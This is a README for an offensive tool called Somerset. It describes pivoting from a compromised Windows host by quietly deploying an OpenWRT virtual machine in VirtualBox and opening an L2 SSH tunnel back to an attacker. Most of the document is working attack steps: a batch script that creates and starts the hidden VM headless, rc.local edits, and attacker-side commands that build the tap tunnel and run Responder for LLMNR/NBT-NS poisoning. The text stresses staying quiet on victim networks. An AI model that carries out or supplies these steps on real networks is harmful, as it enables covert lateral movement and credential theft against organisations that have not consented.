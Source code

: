 # Somerset: Offensive Router for Windows Pivoting

Somerset - is a small **ash** script to prepare OpenWRT for an L2 VPN SSH tunnel for post-exploitation against Windows

![](/poc-images/somerset-cover.png)

> Cover

# Scenario

This is a very specific vector of pivoting, which is a quiet installation of VirtualBox on compromised Windows. The attacker then creates a virtual machine with OpenWRT in the same quiet mode by connecting a specially prepared OpenWRT VDI disk. It is important to realize that this vector requires local administrator rights on a Windows machine.

The most important point here is for the OpenWRT interface in the Vbox to be in post mode and not have an promiscuous mode. This is necessary to initiate exactly the L2 tunnel to conduct link layer attacks, utilize Responder, and so on. This vector is good because it works from anywhere in the infrastructure, since everything will be encapsulated in the SSH tunnel.

It is important to prepare a VDI image in advance. You can convert it from `.img`, here is an example:

I used the OpenWRT image version 19.07.6:

```powershell
C:\Program Files\Oracle\VirtualBox>vboxmanage.exe convertdd "C:\openwrt\openwrt.img" "C:\openwrt\openwrt.vdi" 

Creating dynamic image with size 285736960 bytes (273MB)...
```

```powershell
C:\Program Files\Oracle\VirtualBox>vboxmanage.exe modifyhd --resize 512 "C:\openwrt\openwrt.vdi" 
0%...10%...20%...30%...40%...50%...60%...70%...80%...90%...100%
```

![](/poc-images/research-scheme.jpg)

> Research Scheme

# SSH Dropbear Issue

By default, OpenWRT uses the dropbear implementation for SSH. It does not know how to work with SSH tunnels. Therefore, it will be replaced by `openssh-server`

# Script Mechanics

This script turns an OpenWRT router into an SSH pivoting tool. It does the following:

1) Installation of necessary packages: `ss`, `ip-full`, `kmod-tun`, `openssh-server`
2) Turns off unnecessary DNS and HTTP services, they will only interfere with the pivoting process
3) Replaces `dropbear`, changes its port to 2222, shuts down the daemon. That is, it replaces `dropbear` with `openssh-server`
4) Configuring interfaces. OpenWRT already has a `br-lan` bridge. The task is to create a tap0-interface, enable it and move it to this bridge. And also to activate the unshared mode everywhere.

You should also configure `rc.local` to get the address automatically when you start OpenWRT. This is very important when you deploy the router to a victim. You will need to find this address from the target network. You can scan port 22, since it will always be used on OpenWRT.

```
vi rc.local

udhcpc -i br-lan
echo "nameserver 8.8.8.8" > /etc/resolv.conf

exit 0
```


# Silent OpenWRT Deployment

A small .bat script to automate the creation of an OpenWRT virtual machine

### wrt_vbox_deploy.bat

View the list of adapters in the system

```powershell
Get-NetAdapter
```

```powershell
@echo off

set VMNAME=Somerset
set VMMEMORY=512
set VMCPUS=1
set VMDISK=C:\openwrt\openwrt.vdi
set VMNIC1=bridged
set VMADAPTER1=" " # Specify here the interface of the real Windows
set VMPROMISC1=allow-all

"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" createvm --name "%VMNAME%" --register
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --memory %VMMEMORY% --cpus %VMCPUS%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" storagectl "%VMNAME%" --name "SATA Controller" --add sata --controller IntelAHCI
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" storageattach "%VMNAME%" --storagectl "SATA Controller" --port 0 --device 0 --type hdd --medium "%VMDISK%"
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --nic1 %VMNIC1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --bridgeadapter1 %VMADAPTER1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --nicpromisc1 %VMPROMISC1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" startvm "%VMNAME%" --type headless
```

```powershell
C:\openwrt\wrt_vbox_deploy.bat
```

# Tunnel Init

For the script to work correctly, it must be processed for execution in the ASH shell. You need to send this ASH script to OpenWRT somehow, I don't think you'll have a problem with that. You can even use `vsftpd` for that.

```bash
cursed@kali:~$ ssh root@<OpenWRT IP>
```

```
root@OpenWrt:/# sed -i 's/\r//' somerset.ash
root@OpenWrt:/# chmod +x somerset.ash
root@OpenWrt:/# ash somerset.ash
```

You don't have to worry about silence on the OpenWRT side. It doesn't make noise on the air, it doesn't even transmit hostname via DHCP. After running the script, a tap0-interface will be prepared. Now it is the attacker's task to initiate the tunnel from his side.

## Attacker Side

It is also important to create a /32 route to the OpenWRT endpoint before initiating the SSH tunnel to avoid disconnecting the connection

```bash
cursed@kali:~$ sudo route add -net <openwrt_ip> netmask 255.255.255.255 gw <gw_ip>
```

```bash
cursed@kali:~$ sudo ssh -oHostKeyAlgorithms=+ssh-rsa -oTunnel=ethernet -w 0:0 root@<OpenWRT IP>
cursed@kali:~$ sudo ip link set tap0 up
cursed@kali:~$ sudo dhclient -v tap0; sudo route del default
cursed@kali:~$ sudo responder -I tap0 -vvv
```

# Proof of Concept (LLMNR/NBT-NS Poisoning, Scanning)

![](/poc-images/cursedpivoting-dhcpaddr.png)

> Address received

![](/poc-images/cursedpivoting-responder.png)

> LLMNR/NBT-NS Poisoning

![](/poc-images/cursedpivoting-netdiscover.png)

> ARP Scanning

# Outro

This is an extremely specific vector of pivoting, however I have proven its practicality.
